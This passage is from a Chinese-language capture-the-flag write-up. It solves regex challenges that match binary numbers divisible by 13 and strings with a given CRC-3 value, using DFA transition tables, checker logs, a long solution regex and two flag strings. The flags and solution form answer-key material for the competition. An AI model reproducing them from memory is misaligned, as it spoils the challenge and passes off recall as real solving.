Pass 4684845383158265488 True True
Pass 17899633855986802506 False False
Pass 7649680185218807632 True True
Pass 13497061187591243253 False False
Pass 2367056173255425680 True True
Pass 4951483389914748359 False False
Pass 13347385384938415696 True True
Pass 15194602128331524806 False False
Pass 372472418016482608 True True
Pass 10539142824691096481 False False
Pass 12009073882405050304 True True
Pass 1323487090713311471 False False
Pass 14228102093568382400 True True
Pass 4542381910830588360 False False
Pass 5299447486710748400 True True
Pass 10564356083325675484 False False
Pass 12137728039884558528 True True
Pass 14610477935011639181 False False
Pass 13317356368670881472 True True
Pass 17580121840724968070 False False
Pass 17356208741655217056 True True
Pass 12388495883627599681 False False
Pass 4348057838419328992 True True
Pass 1805221322029191124 False False
Pass 1088237589342388736 True True
Pass 6672040375630227010 False False
Pass 18198535627088470672 True True
Pass 8267250710765106835 False False
Pass 8471662854947239120 True True
Pass 7218814280141945803 False False
Pass 8254843115402628912 True True
Pass 7580612023682795836 False False
Pass 18114936408218459024 True True
Pass 8648187037994854545 False False
Pass 1475223287665261920 True True
Pass 4844707486564570813 False False
Pass 454863461957691248 True True
Pass 10188711877449076567 False False
Pass 1919735219902129424 True True
Pass 22683734034922922 False False
Pass 17657569696360721056 True True
Pass 8414198747665768796 False False
Pass 6243453558703370912 True True
Pass 16626127946837801193 False False
Pass 11082516879494852720 True True
Pass 10048781038177151683 False False
Pass 8053468188963427504 True True
Pass 12276219804112715816 False False
Pass 1730753398758310336 True True
Pass 7146492274131853237 False False
Pass 5349696352909426304 True True
Pass 17732061590622129967 False False
Pass 15327521938825409136 True True
Pass 9001179337708227463 False False
Pass 15444314233526621920 True True
Pass 17336706240104982759 False False
Pass 3826758468344598864 True True
Pass 7194471392732396297 False False
Pass 14721913830828174000 True True
Pass 14706864004855896874 False False
Pass 1293659024149389520 True True
Pass 9602281152227358388 False False
Pass 2366824101488840368 True True
Pass 4059192005561723838 False False
Pass 11986555741829823504 True True
Pass 1141019530521746925 False False
Pass 561361863286432656 True True
Pass 10700831612475272868 False False
Pass 14379159273149707088 True True
Pass 8259226944746227308 False False
Pass 4356590120991758496 True True
Pass 11428771500458865637 False False
Pass 12458712359297105760 True True
Pass 6629944073985900526 False False
Pass 15753366310881580192 True True
Pass 15168745863873481789 False False
Pass 5980883878309783104 True True
Pass 14179585478928798183 False False
Pass 218912973968018400 True True
Pass 11253922405555814985 False False
Pass 12987509861258163376 True True
Pass 8451658202805691197 False False
Pass 17472711086266092304 True True
Pass 13446024741664083237 False False
Pass 13914941815733258704 True True
Pass 2585107459283628107 False False
Pass 12365595023520815744 True True
Pass 16540741906805994661 False False
Pass 17150748714614777232 True True
Pass 13713956054615221791 False False
Pass 13401529477349891328 True True
Pass 5236006209278486600 False False
Pass 8877745768769684416 True True
Pass 2955500384231912083 False False
Pass 5559960651268771088 True True
Pass 14426815947254911673 False False
Pass 14628065192218478288 True True
Pass 16677391890623050450 False False
Pass 8090527056574172480 True True
Pass 16069015541519971398 False False
Pass 897705687698286832 True True
Pass 9896904772225633289 False False
Pass 4492569538860815056 True True
Pass 1522354433568537277 False False
Pass 2858818090393188560 True True
Pass 5923413962991584632 False False
Pass 14136724291852608496 True True
Pass 10593737389388262730 False False
Pass 5826226795369168560 True True
Pass 4899275332023416747 False False
Pass 2285710240189744368 True True
Pass 166551002349647678 False False
Pass 2600434034303535296 True True
Pass 17697205282233143941 False False
Pass 13805156749365940656 True True
Pass 17209393799358728839 False False
Pass 10209322578768557616 True True
Pass 14898145112521841063 False False
Pass 4489326925741347968 True True
Pass 7662587993812719422 False False
Pass 15051365899237422160 True True
Pass 3275008727933666033 False False
Pass 8333451118773025184 True True
Pass 14879056366541059498 False False
Pass 15322953928467942240 True True
Pass 13852491492541515310 False False
Pass 14443289033641705664 True True
Pass 2198701714846790471 False False
Pass 12172562773539218416 True True
Pass 16834423451372300868 False False
Pass 508199148661764480 True True
Pass 8926658586736409292 False False
Pass 10924991418568505584 True True
Pass 47950056487096979 False False
Pass 6105759995534988464 True True
Pass 18253513230172722404 False False
Pass 4990057750057404368 True True
Pass 4428614496874392449 False False
Pass 5733952037951287616 True True
Pass 7511005271814358346 False False
Pass 7834478451242820528 True True
Pass 10035626854290699733 False False
Pass 948642609507933888 True True
Pass 7432063620229359112 False False
Pass 5052713710333660704 True True
Pass 17945228761107913588 False False
Pass 8526500774654029904 True True
Pass 8961106301176323524 False False
Pass 6753100669026454720 True True
Pass 2835564463629781794 False False
Pass 5333231503393568976 True True
Pass 17249773565581428920 False False
Pass 3035806144056073552 True True
Pass 16492827891100059471 False False
Pass 13297085112764563616 True True
Pass 12778434723622360730 False False
Pass 6301710962241795680 True True
Pass 9617947734031209864 False False
Pass 9767132900944881968 True True
Pass 752018421068660580 False False
Pass 9176428929499436352 True True
Pass 1143991743053080869 False False
Pass 6377619506813477280 True True
Pass 15912548799505781759 False False
Pass 18145627006526401488 True True
Pass 6440972428294413612 False False
Pass 9227616514077794080 True True
Pass 16653291145429415132 False False
Pass 17677722796855647760 True True
Pass 1449132017271564020 False False
Pass 11666632241074613504 True True
Pass 12154113993374441597 False False
Pass 10644478705280322240 True True
Pass 15013230491860325960 False False
Pass 16202527720367568544 True True
Pass 11605324000939822821 False False
Pass 5420741905429992608 True True
Pass 7117310327460574790 False False
Pass 15396570625241983936 True True
Pass 7697856121506782450 False False
Pass 3933866276105601616 True True
Pass 5987147582422460949 False False
Pass 12721865199154134288 True True
Pass 7245284318729035546 False False
Pass 16177916334118422576 True True
Pass 13282175545483992030 False False
Pass 9674266756269912416 True True
Pass 17944382472150945835 False False
Pass 16469831191785706288 True True
Pass 7882544728360200883 False False
Pass 12856753246137839168 True True
Pass 18298823561037113193 False False
Pass 5638385271992591408 True True
Pass 16598827371926322610 False False
Pass 11625234328581664608 True True
Pass 958388372335185161 False False
Pass 809034254094461712 True True
Pass 15080181141634477140 False False
Pass 439952007801414192 True True
Pass 5451299696136162694 False False
Pass 16618393933971511904 True True
Pass 8669463360530495475 False False
Pass 13401428419068256400 True True
Pass 4816399493378604842 False False
Pass 12880024124337970800 True True
Pass 4986727219593555548 False False
Pass 9108684456819527664 True True
Pass 323585243841741749 False False
Pass 13393722211565632032 True True
Pass 15738830360847712017 False False
Pass 13228226383186962672 True True
Pass 8332894445242232796 False False
Pass 1702981397482928432 True True
Pass 3223223633065629369 False False
Pass 8716544681770931680 True True
Pass 7556981767576814589 False False
Pass 2417302233775168624 True True
Pass 18100713550322696370 False False
Pass 12540313728043208320 True True
Pass 17607207658076923837 False False
Pass 15149214272256093248 True True
Pass 6848572607687089582 False False
Pass 18228550632985964288 True True
Pass 15427182442550281688 False False
Pass 2043518692259002528 True True
Pass 9109718910027013305 False False
Pass 17264613904488081920 True True
Pass 11914260297887779523 False False
Pass 10946511889798012368 True True
Pass 13202126023127838166 False False
Pass 3535521785955192768 True True
Pass 3468359965149483237 False False
Pass 12904203955782701552 True True
Pass 16332314025966656889 False False
Pass 15993572611923647712 True True
Pass 16919463510738595116 False False
Pass 8577016278229917888 True True
Pass 15881311544362622450 False False
Pass 5990515604646529168 True True
Pass 10128902713946019406 False False
Pass 1437578388163054560 True True
Pass 12306188543300510092 False False
Pass 15175163546974363744 True True
Pass 18415182770999438996 False False
Pass 11886637974061678944 True True
Pass 4947107486316204479 False False
Pass 8191773034706898512 True True
Pass 4383459828211085294 False False
Pass 9293232386140261472 True True
Pass 5102878779273485365 False False
Pass 11626100711166504176 True True
Pass 15933984510994951549 False False
Pass 6263197795436835408 True True
Pass 7597839749848054906 False False
Pass 4243011624232151584 True True
Pass 14063943102300822966 False False
Pass 16649131215838264320 True True
Pass 11473674481928065606 False False
Pass 16111128849117842400 True True
Pass 2970405300177733022 False False
Pass 13598861125416856720 True True
Pass 217554165984018241 False False
Pass 4894084848310934672 True True
Pass 14220429994090182821 False False
Pass 11683410529954825824 True True
Pass 4298603684603353267 False False
Pass 9774896127846474032 True True
Pass 236928725450542965 False False
Pass 5275184758329066112 True True
Pass 722588515469017340 False False
Pass 10964818455407484080 True True
Pass 14865259561824194351 False False
Pass 14445273620356056080 True True
Pass 1172471521719902171 False False
Pass 7115801057723929712 True True
Pass 3540333921883878205 False False
Pass 10192532785555511744 True True
Pass 5432882143585199491 False False
flag{p0werful_r3gular_expressi0n_easy_fe935d666c}
```

### \[Flag 2\] Medium
构造一个确定有限状态自动机（DFA），然后编译成正则表达式即可。

只要结果完全由前面的结果和追加的元素决定——换句话说，只要 $f(x)=f(y)$ 就有 $f(\operatorname{concat}(x,z))=f(\operatorname{concat}(y,z))$——那就可以这么做。而模运算对乘法及加法的性质使的这点成立——这里 $f(x)=x\operatorname{mod}13$ 且 $\operatorname{concat}(x,y)=2x+y$。

DFA 还挺简单的，确保每个节点的各种可能都穷举到就好了。本题初状态是 0，末状态是 0（题目要求）。
|$x\operatorname{mod}13$|$y$|$(2x+y)\operatorname{mod}13$|
|-|-|-|
|0|0|0|
|0|1|1|
|1|0|2|
|1|1|3|
|2|0|4|
|2|1|5|
|3|0|6|
|3|1|7|
|4|0|8|
|4|1|9|
|5|0|10|
|5|1|11|
|6|0|12|
|6|1|0|
|7|0|1|
|7|1|2|
|8|0|3|
|8|1|4|
|9|0|5|
|9|1|6|
|10|0|7|
|10|1|8|
|11|0|9|
|11|1|10|
|12|0|11|
|12|1|12|

直到这时我才明白 Hackergame 2022「Flag 自动机」一题的标题是甚么意思。

其实 Codewars 有这题，都不用自己写了。
```
Enter difficulty level (1~3): 2
Enter your regex: (0*|10(110|0(01)*1)(101*00|010)*11|(11|100(01)*00)(101|1(1|00)0(01)*00)*(01|(001*00|1(1|00)(110|0(01)*1))(101*00|010)*11)|(101(0|11)|10(110|0(01)*1)(101*00|010)*(101*01|0(0|11))|(11|100(01)*00)(101|1(1|00)0(01)*00)*(001*01|1(1|00)1(0|11)|(001*00|1(1|00)(110|0(01)*1))(101*00|010)*(101*01|0(0|11))))(0(1|00)1(0|11)|(11(01)*1|0(1|00)(110|0(01)*1))(101*00|010)*(101*01|0(0|11))|(001|10|11(01)*00|0(1|00)0(01)*00)(101|1(1|00)0(01)*00)*(001*01|1(1|00)1(0|11)|(001*00|1(1|00)(110|0(01)*1))(101*00|010)*(101*01|0(0|11))))*((11(01)*1|0(1|00)(110|0(01)*1))(101*00|010)*11|(001|10|11(01)*00|0(1|00)0(01)*00)(101|1(1|00)0(01)*00)*(01|(001*00|1(1|00)(110|0(01)*1))(101*00|010)*11)))*
Pass 11100101111101100101101100111101110011000111001000101010011110 True True
Pass 10010111101010111011000000000101100100000011110000100111000111 False False
Pass 110001010000001001100111011101011101111011111111001011000011100 True True
Pass 100001011000101111000111000111111011010010100011101111000010010 False False
Pass 100101000010100101110100010000000000010010011111110110011111100 True True
Pass 110111111000011001011011000110001010110000000011000001001101101 False False
Pass 1001100111110001101010110010001011001101011111000011100010111011 True True
Pass 1101101011100001011001001110101101010111010011001001001101110011 False False
Pass 110110001111100011011100101110100101101110001101011000010001110 True True
Pass 1100000010110000000101110101100101011011000111010010010010100 False False
Pass 100101110110000011010100110101001100100100010000111110101000010 True True
Pass 101011001011110100111011000010010010000110011100001100101110010 False False
Pass 110000111010111010001101100111011111011000000000000100110110110 True True
Pass 101111110100010001101010010111110110101001000110111011000110110 False False
Pass 101000011101011111111000001101001011100100100111001010101101011 True True
Pass 100001100111001111010001110110100000110000000001110111001010111 False False
Pass 10011000110001001101111100011001010001001100110000001001011 True True
Pass 111000010011100110101010101111111011101011100011001111011101101 False False
Pass 110111100011010100000110110101100101000010001100111111000010010 True True
Pass 1010110101100101000000001101001000010101010001001000001000010000 False False
Pass 1110010111101011010011110101010010111000001010111110101000110011 True True
Pass 1101001101010001000110111001101000011111000100110010011001110101 False False
Pass 1001000111010101001110110001101010110110100001111100011100100011 True True
Pass 11101111110010010101011110101011110011001001101100011100110111 False False
Pass 1111011100010001011110001000011000110110100010110100010011000010 True True
Pass 101010011101111100000100001000101111010100100000010101001011100 False False
Pass 100101001001010110001010110011110100010110100101000011110011011 True True
Pass 100000111110101101111101111101110011101101010010010101001110000 False False
Pass 1101111101000011100001110000000100101111101000001111010110010101 True True
Pass 10010100010111001001100100000100000000100000000010100000101011 False False
Pass 110100010000110110001011010001111101001011110111100111111000000 True True
Pass 1010001101001001000000011010100001101010100011110110111111011111 False False
Pass 1110101100101110000000001100101111011110011001011010101101111011 True True
Pass 1100101010000001111111000101100101111110111011110111000001010000 False False
Pass 11100100100000110101111011110100111010010001011100101110110010 True True
Pass 1101101000001100011101011011111100000010000001010011010011000010 False False
Pass 1011010100111001100001000011010110010000000010001110111100111110 True True
Pass 1101011000101110101111000101001101010110111010001111110000010100 False False
Pass 1001110100100100011010000101010011001111100101010100001110111111 True True
Pass 1010110100111011110111011000111110111001101100100101110101010010 False False
Pass 1011010010010000011001101101100010100001000001111011100001110011 True True
Pass 1101101111001111011001101011101001010010100101000100111100010000 False False
Pass 111001000000111000110000001111000101111010111100110110100101101 True True
Pass 111110100100101101010111111010100001100001111101001001000011 False False
Pass 1101111111010001100000110110000010111011011111010110000101000111 True True
Pass 1001101010110000101110111100101110101001000100000000101100111110 False False
Pass 110101100101111101110011111100001010010011100101011010110000010 True True
Pass 10001011101000000111000010111110110111011001011011111000101100 False False
Pass 1111101001010110111010100110000100100111100000100111011001000111 True True
Pass 1001011111010110100000010100110101001010011100110011010111110001 False False
Pass 1110001100001111111010101100001010001011011110111010111100101001 True True
Pass 1101000011110100111011110011000111110100111101001101100011000000 False False
Pass 1000011011010100111100000010000101001101111111000110000010111000 True True
Pass 10110010100110011000000101010101011000110101101111101101101111 False False
Pass 1101101001010101110011101111100111100100100100100111101111100 True True
Pass 11100100111110110001000100111101010101011011100000100101011110 False False
Pass 1101110001000111001000101111010111101010111100011100000100000111 True True
Pass 1100011111010001001100111101000000011011111011011100000010011111 False False
Pass 1100011001101010110111111001110101100001011001111010100100000101 True True
Pass 10101111010011101101000100110111000100010001010000111011011000 False False
Pass 101011111000100110011010100000111101100111010000001101100000 True True
Pass 1110101111010010111100011111000101111001101111010111000100100111 False False
Pass 101000000010100010100100000011001100011111010100100111110110010 True True
Pass 110111110111111111110111000110101100110000111001101010101001011 False False
Pass 1001010100001011001001110100001101000100101011100000100100110100 True True
Pass 101100000010101100100011110010111001010001001000100010110011100 False False
Pass 100011100100000011100100100100011100000111001001110010010110 True True
Pass 1000100001011101011101010001011000011010110111101100101101111010 False False
Pass 1101101011100101111101111000100110100011110010010001001101001000 True True
Pass 1101001010110000000000110001011000111010111110011010100001001000 False False
Pass 1010111000011010010011001010110011001011111100011111110101100010 True True
Pass 111100101001101110101101010011011000010011000011001011111000 False False
Pass 1010100001010010000001001110001100001011010111110110111000000101 True True
Pass 1000111111111011100010110011001010101011101111011110101100000010 False False
Pass 1100110010101110000010110010001000100110000001110000101000100101 True True
Pass 111100001010110001111110000111110010101001100001110101011111000 False False
Pass 101001011010111110111010000000001100000110011110001011111111111 True True
Pass 110000111110100111001010000111010110010111110110100111111011101 False False
Pass 111110000000011001101100111101000001111111100100011111001101001 True True
Pass 10100100010010000111000010001101001110001000111000111010000110 False False
Pass 11000000100001111010110011010011011011000000001111101100101100 True True
Pass 111001100010000100000001000110100001100100100001001001100111110 False False
Pass 111101010100000011101010111110001110000111100000010001001001100 True True
Pass 1101010100010010011011110000101010010011011000010100001101000010 False False
Pass 1101000001101010001110101001010011110111011011100000000110001110 True True
Pass 1011000110111100011010000001101101011001001000100010001000 False False
Pass 1000100010000111010110001111100000010011100110001100110111110111 True True
Pass 11001000111011010110011101000110010011000101011000011100010110 False False
Pass 1100100101000011010110110111111011011010101101100110111001101111 True True
Pass 111101100010110100011001111111000110010101010010101011100010010 False False
Pass 1101000101001101001101100110110011011011010100111110110100101 True True
Pass 110010101100000111001001000100011110110100110000010010011101 False False
Pass 1101100101111111101101101111101100000001011000010001110110111111 True True
Pass 1010111011111000111111001010010011111011100011110111101011010001 False False
Pass 1100111100011000000011110111111000110001111101100100000011000111 True True
Pass 111100111101000100111100011001101011011111011111101110000100101 False False
Pass 1000100110001011000101101011110010110011000011010111110111110110 True True
Pass 110010100000100001011101011011001110101011001000000100011000101 False False
Pass 11011010010111011110011011010010000101010010011110111010110001 True True
Pass 1000101110010110110111101000000111000101011000111101101111110 False False
Pass 1100001111001100011101011000111101111010100010010001010011111101 True True
Pass 1110110101000000100000111100001101101011011001011110001001101111 False False
Pass 110000000000110101110101001111101111010001101000110100100110100 True True
Pass 1011000111001010110000001110111100101101110110000101001100110011 False False
Pass 111011001010101110100101001011101101101001001000010111001010001 True True
Pass 1110000000111000110000100000000000011011101010101110101011010110 False False
Pass 11111111111110000001111100100100100011010001010111111001010001 True True
Pass 100111011001111011111001011010011111110100100010100000100000111 False False
Pass 101111110001111010101000011000100011110100101100000101011111 True True
Pass 100000010000111000111101110010100000100000111001000101011101100 False False
Pass 1010001001110111100101001101110101101110011001100011011011111001 True True
Pass 1001111001111100010111111110100001110100110010011011111100110001 False False
Pass 100010000101010000101110011110100010011111101000000111100011010 True True
Pass 1000001011000000000101111100011001010001110111100101111110111011 False False
Pass 1000001011100001111011001000100000100110101001110001000011111110 True True
Pass 11100000110000111111010100011000001010110000101100110100110100 False False
Pass 11101010000001110101101000001110100000010110011110101101000101 True True
Pass 10101001101110110111110001010100110110001001000011111010110110 False False
Pass 1000100111000100001000101110110101010001111011011001000011111110 True True
Pass 110011100110011000010111000010111100000001000100001011010011000 False False
Pass 11111000100010001100010110001110100010100001001111100110101101 True True
Pass 10001010100001000110100111000010111001110110110110000000000011 False False
Pass 11110011000110010010101000110101101011101011101100101000011110 True True
Pass 1111100010011101100001110000000100000101011101000010101000111 False False
Pass 101100110001001111100100101000010111111001100000111000000111000 True True
Pass 1000001110100011010110101101010000011000011010101110101011000111 False False
Pass 1011101010111010000101101100001010011101010101010000011010110010 True True
Pass 101010101001010001000010000000001111010100101110110110001110000 False False
Pass 1001000011000010000111010101111000110001110101000010000010100110 True True
Pass 10001010001000011110011110010011111111101000001101101101100000 False False
Pass 1110000000011001010111001100001010001111111000110010000011101001 True True
Pass 1111100100000111111100110000001111001101111000110001011110010010 False False
Pass 1011111000011101111001111000011001100111010100100111101111011111 True True
Pass 11000011011111110111001111011100110000111100010101010101111011 False False
Pass 110011101100000100101111001110001000001011100000110100100001100 True True
Pass 100111010001111011111000111110000111001111100111101000001010000 False False
Pass 1111011110000010000000111011001110111111000110001100000101010101 True True
Pass 1001110100000000000110110110111101000010000011001010001011110111 False False
Pass 1010101100100111101111101001110101001000110000110010011110010110 True True
Pass 1100101001010000101101001100000010100011100010111101111011010100 False False
Pass 1001100111100100010100001010101011110011110010000000010111011110 True True
Pass 100001110110010001001001001000011011110010000100010010000001 False False
Pass 1111001011000001101100010101111110010101111000101001101101110110 True True
Pass 101101011010010001100001101100001110001010001100011100000000010 False False
Pass 10011001111100001011111010011000111010100100110011100110110 True True
Pass 111011111100001100110100110110100010110000011101001111001001011 False False
Pass 10101111010000011001001000110101000111000010010110010101110110 True True
Pass 11100111110011101101010000111011100011010100100000101110011 False False
Pass 1001010110100111010100101010100101101100000100001010110001101000 True True
Pass 10011010001110001011111010001000001100011111010011010001000011 False False
Pass 1001100111100011011111000011011101000010000110000101001001001 True True
Pass 1100111101101111110001000010000101110001111011110100000100010110 False False
Pass 1101001001001101000101111111001101000101101000110010001111010 True True
Pass 11011101110000100110110001101101100011000010101101000010001100 False False
Pass 1010111000011100011110111011110111011101000010110000011000100 True True
Pass 110101110101101001000111110001010101101110100111000111001011110 False False
Pass 1001011101001001000100011100011001000011111000000010011010100101 True True
Pass 1101100111111011100111111001111011010010101000111000101011110101 False False
Pass 111010111111000001110000101101010011001001011111010110001110101 True True
Pass 100111000111111110101111101110000001110011000000000010011111000 False False
Pass 101100110101010011110100101000110010110011011010011101011010011 True True
Pass 111101000011000001101001110101111010010011000110110011010001011 False False
Pass 101111000001101110111001101101110110001101101010111010111000101 True True
Pass 1101110101001001000000111000100100100010010011100010010110100001 False False
Pass 1000101000001000111000100110001000011100111111001001011010001011 True True
Pass 1101010110011010011101001011001100110100000110110000101110001011 False False
Pass 1001111010101110100101111111011100111100110011111101110100000000 True True
Pass 1010111111111111011001000111001010101100011101101010011111010011 False False
Pass 1101011001101111000011100101101001011001100100110010111111111101 True True
Pass 1001101101000010111010111101011000001101000000011011011111001011 False False
Pass 1110100000101011011100100000100001011010000000101010110100001110 True True
Pass 11001110100010110111101011001001011111010011110110110011101 False False
Pass 1011010101000100010010010011011011110011001111000011100001000 True True
Pass 1010111100100010001010100100111111001000110000011101110010000100 False False
Pass 100001010110000000110110000010010011000101110010000101111001101 True True
Pass 100101011110011100110000111001100111000100101000000000110011101 False False
Pass 1110000101011100100010101101000110000010010110001110011100111001 True True
Pass 10111001010011110001100101000100100010101110110011101011010000 False False
Pass 110011101101110010010000010101000000111000000100100111111110101 True True
Pass 1111001111100000111101011011011011000001010011011100101010000110 False False
Pass 1001111000111110011100000001100001110110111000000010101101011001 True True
Pass 111000011100111001000001001101000110100001111111001010000000110 False False
Pass 111111111100010010011110000111011111010001010101010011001011010 True True
Pass 1110100001011111010000011010010010001000100010000010101001100000 False False
Pass 111000000010110010000010001000100011111011110100110011010000000 True True
Pass 10011010111110010001001001000101100101000110000111000011101101 False False
Pass 1100000011100010110101100001100100010100010000000110001001100110 True True
Pass 111010101100000110001101100001110111001111110010111110001010100 False False
Pass 1000101001011101110001101000111101100011001001011111111101100111 True True
Pass 110100110110011100111001001000110010111011101001100001001010000 False False
Pass 1011011011110100011110111000101101011111011010100100011100100011 True True
Pass 1111101010111101101101011101111010100000101010000001110000111011 False False
Pass 100100001010010000100100000001011010101011011101100100011010001 True True
Pass 100001110011001111010011111001001000000011011111001111010101011 False False
Pass 1111101010101010000111010101001011110000100100100101101110011111 True True
Pass 101000110010110011010111101000110011000000110011010011111100110 False False
Pass 110101111101110111011011011011101101010100010111000010100011001 True True
Pass 1111000010000011001101001110010100110111111011010011111111001011 False False
Pass 1010111100100000110001001000110111101110010100000001111100101011 True True
Pass 110100110100011111100010111101111101001010101010000100100101100 False False
Pass 11101001010010011010101001110100011101010111010010001101000111 True True
Pass 1010001000000100110101001111010111000011111111111000010100111000 False False
Pass 1010001101001001101001100001011110011000010100011110110100011000 True True
Pass 1100110010011011001010111011010011010010101101010110100111000001 False False
Pass 1101011010100100011010010011001110011111100001011110011111001110 True True
Pass 1110000111001110010111011110001010011100000101010110100101111010 False False
Pass 10111010010111110110101110010100111111000100011110110100100101 True True
Pass 1011111001001001000100110110111100010000101000011110010001010000 False False
Pass 100101111011110011000110100111010111000010100111011100111001101 True True
Pass 100101010001001100111011111100101000111111010011111100011111101 False False
Pass 100000101011111001011101010000100000000011001001111110001101001 True True
Pass 1100111110010110110010001111100101101101111001000100000010111000 False False
Pass 1010111000100000101100111011010010000011010000010100000001011000 True True
Pass 1111001010110000110011111101011100010011010000011010001110101100 False False
Pass 111011000110010010110000001111101110011110001010010100010100101 True True
Pass 1101000010100010110010111011101111111010001000111101101101111000 False False
Pass 11100001011110110000010111110001000001001111001001011111010011 True True
Pass 11010110101011010010111001101101010110010101101010010000010111 False False
Pass 11011000011000101011110100111100100001011111101111010111001001 True True
Pass 1100100001000000100100010010110011110011010100101110101111011010 False False
Pass 1011000001001010011001100111101100000011011001010010101000101001 True True
Pass 1110011101111110100111100001110000001100110010001100000011000 False False
Pass 110100100111010011100100001011101011001110111110110111010000100 True True
Pass 1000100100000100100010010010110111101001111010011001011000111010 False False
Pass 1010101101110010000010100010010100010111110000100100100011110001 True True
Pass 11001101011010111111111011011100000110010101011000100111111010 False False
Pass 11101110110110010101010001100110110100011100001000110001110 True True
Pass 110010000000000111110100110001111011000100101111100110101001110 False False
Pass 10010111001001110100101011011001000001010101000110101100000 True True
Pass 1000010100101111111110000001001010011011110010110011000000110101 False False
Pass 111111000110101101001110111001101000001111101100101000001010011 True True
Pass 1111011111010101111111110110000110101101100001010110011100100010 False False
Pass 11011100001101100010011100111000000011100111110111001011011011 True True
Pass 1001110100111100010000000010011011001000101100011011101110110011 False False
Pass 1000100110101010100011000100010001001010110000011110110111010101 True True
Pass 1110001111000110110101100110011001100001110001100010000100100101 False False
Pass 100010101010100100000001110101000011010001111101100010001111000 True True
Pass 1001000010000110100110001010011101011101011001001000100100000 False False
Pass 1000001010011110111110011010010100111001110111101110110000001111 True True
Pass 1111111000010111100101011011000111010100101001110101110010001 False False
Pass 110001101011100111001111001111100100111010100000001001101100000 True True
Pass 1101100010010010001000000111100100100110010111000100111001000110 False False
Pass 1011001110111111101001001110011011010111010110000101010111110010 True True
Pass 1100110110010010100000100000001100110001100010001000101011010101 False False
Pass 1000110111111110111111010010101001011001110101110100011111011010 True True
Pass 101000110010010000110011101110010001100010111001101101000010001 False False
Pass 101001011010011111111100010001101110010010010001101111110111011 True True
Pass 1111110011011000011001101011101001110111110100011100110111101111 False False
Pass 1100000100100010111010010100110000010100011111001101001101110111 True True
Pass 110010101001100100001101011100011011110101111111000110001010001 False False
Pass 1010101110100011001111111111101100111011000110101010011111011 True True
Pass 11100101001010100011111000101010010011100100100001001101001111 False False
Pass 10011010110110101011000010111110011111010100000110111010110001 True True
Pass 111111010000111100011001000110111101011110111111111011110000101 False False
Pass 100101000111111000111111111100011000111011100000101000100100101 True True
Pass 111101000100011010000111111100100111011000101101010110111101111 False False
Pass 10100110111111001000001001101101010010110000011110000111100101 True True
Pass 110010110000111101001111111100011011100100111110001010011010100 False False
Pass 11000100000111000101100100010101101100011100010100111000011110 True True
Pass 11010011111011011001100101001111001010101010011110011001110 False False
Pass 110101100111110100000010001100001001101110111101000111010100 True True
Pass 1010111101000000011110000101101111101000011010000111101010110 False False
Pass 110000010010100011011010000001001011111010010010110011101110111 True True
Pass 110111010110110111110001011000100101001110001100101101111011011 False False
Pass 10010010000110001100000011111111101110001111110110100101001000 True True
Pass 1000011101011111011100110000011100010110010110111110110011010000 False False
Pass 1011100100011100101111001100001110101011101001101011010000111 True True
Pass 1010101000101000010110101101011101110110011110100100101100011111 False False
Pass 1111010101101100101001110001101010111001010011111001101000000110 True True
Pass 1101101100101100111000011000001110001110010110101011010010011111 False False
Pass 1001111000001001101011000101101000010000110010100011110000100001 True True
Pass 1110110101000110001101000110011110100001110111001001001100010000 False False
Pass 110000111000101100010011001010100110100100101010011111000010101 True True
Pass 100010010111101110001011111000111101101010011001111011101111010 False False
Pass 111010110001011001100000111100100111101111000111111001110000100 True True
Pass 1110001101011101111110010100110000010010000001010000010010101111 False False
Pass 1011010110110010110111100000110110001100000111100111001001110111 True True
Pass 110000011011101101010001110100110101000001100001011000100111011 False False
Pass 101001001011110011001101100111001011110100010101110111001011011 True True
Pass 100000001000110110010010010111010111110010110011010101001100111 False False
Pass 1010110111001101101001001111011111011000101110101000001000101 True True
Pass 111010100011111100110100100100110011000000010001001110000001110 False False
Pass 1010110110100100111100111101110101100010011111100010101101011101 True True
Pass 100011011000010110100001110111000001111010100100001111010110111 False False
Pass 1101011110110101100110110111011110000100001111101011101010001101 True True
Pass 100000110100110011101100111101000111010100001001001011011111 False False
Pass 1011111000001001011100000000011000001000101000000001000001011101 True True
Pass 11100011100100101010000100100110111110011100011000000100010110 False False
Pass 1010010111111000011101100110111000100001110100011000010001000011 True True
Pass 1110001000011111110011100000101010010101100101101101010010111 False False
Pass 101110000001010110111110001110100101011011011101101110101010010 True True
Pass 1010101000000001110001011110100010101111101100000010100110111010 False False
Pass 11000110001000111101010000001100001111011110110100001110010000 True True
Pass 1111001001100110111100000010110100100111110000001101101001111000 False False
Pass 1000001111011100101111001010110101101110000111101011110001100100 True True
Pass 1011111010101100101111010100010100011100110000111101110100111111 False False
Pass 100111000100100101011010011010011110100101111001001110011101100 True True
Pass 1000110101101100001101010100011010001111010000111110010000100101 False False
Pass 1011011100100001000101001011101111100100001010111100111010010111 True True
Pass 1100000100111101001100000101010011000010110110011101010111000101 False False
flag{pow3rful_r3gular_expressi0n_medium_76134a5a4d}
```

### \[Flag 3\] Hard
把 libscrc 装上之后把玩就知道状态分布了，根本不需要看算法。初状态（空字符串）是 7，末状态是 0（题目要求）。
|$\operatorname{CRC}(\text{str}_1)$|$\text{str}_2$|$\operatorname{CRC}(\operatorname{concat}(\text{str}_1,\text{str}_2))$|
|-|-|-|
|0|0|1|
|0|1|2|
|0|2|7|
|0|3|4|
|0|4|6|
|0|5|5|
|0|6|0|
|0|7|3|
|0|8|4|
|0|9|7|
|1|0|3|
|1|1|0|
|1|2|5|
|1|3|6|
|1|4|4|
|1|5|7|
|1|6|2|
|1|7|1|
|1|8|6|
|1|9|5|
|2|0|5|
|2|1|6|
|2|2|3|
|2|3|0|
|2|4|2|
|2|5|1|
|2|6|4|
|2|7|7|
|2|8|0|
|2|9|3|
|3|0|7|
|3|1|4|
|3|2|1|
|3|3|2|
|3|4|0|
|3|5|3|
|3|6|6|
|3|7|5|
|3|8|2|
|3|9|1|
|4|0|2|
|4|1|1|
|4|2|4|
|4|3|7|
|4|4|5|
|4|5|6|
|4|6|3|
|4|7|0|
|4|8|7|
|4|9|4|
|5|0|0|
|5|1|3|
|5|2|6|
|5|3|5|
|5|4|7|
|5|5|4|
|5|6|1|
|5|7|2|
|5|8|5|
|5|9|6|
|6|0|6|
|6|1|5|
|6|2|0|
|6|3|3|
|6|4|1|
|6|5|2|
|6|6|7|
|6|7|4|
|6|8|3|
|6|9|0|
|7|0|4|
|7|1|7|
|7|2|2|
|7|3|1|
|7|4|3|
|7|5|0|
|7|6|5|
|7|7|6|
|7|8|1|
|7|9|2|

（你发现了吗？字符串「9」「8」各自与「2」「3」等价！）
```
Enter difficulty level (1~3): 3
